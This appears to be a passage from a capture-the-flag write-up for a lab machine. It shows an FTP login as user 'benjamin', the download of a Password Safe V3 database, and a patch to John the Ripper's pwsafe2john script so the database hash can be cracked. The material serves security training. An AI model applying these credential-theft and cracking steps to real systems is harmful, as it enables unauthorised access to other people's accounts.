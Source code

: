 Benjamin
```bash
ftp 10.10.11.42
Connected to 10.10.11.42.
220 Microsoft FTP Service
Name (10.10.11.42:blnkn): benjamin
331 Password required
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> dir
200 PORT command successful.
150 Opening ASCII mode data connection.
10-05-24  08:13AM                  952 Backup.psafe3
226 Transfer complete.
ftp> get Backup.psafe3
200 PORT command successful.
125 Data connection already open; Transfer starting.
WARNING! 3 bare linefeeds received in ASCII mode
File may not have transferred correctly.
226 Transfer complete.
952 bytes received in 0.0317 seconds (29.4 kbytes/s)
ftp>
221 Goodbye.
```

We found a psafe3 file in benjamin's documents

## Crack Password Safe V3 database

This is a password safe database
```bash
file Backup.psafe3
Backup.psafe3: Password Safe V3 database
```

John has a script, which didn't work for me out of the box, I had to make a few changes
```bash
diff /usr/bin/pwsafe2john ../tools/pwsafe2john.py
32c31
<     data = f.read(4)
---
>     data = f.read(4).decode()
42,43c41
<     iterations = struct.unpack(">I", f.read(4))[0]
<
---
>     iterations = struct.unpack("<I", f.read(4))[0]
46c44
<     sys.stdout.write(hexlify(buf))
---
>     sys.stdout.write(hexlify(buf).decode())
52c50
<     sys.stdout.write(hexlify(hsh))
---
>     sys.stdout.write(hexlify(hsh).decode())
```
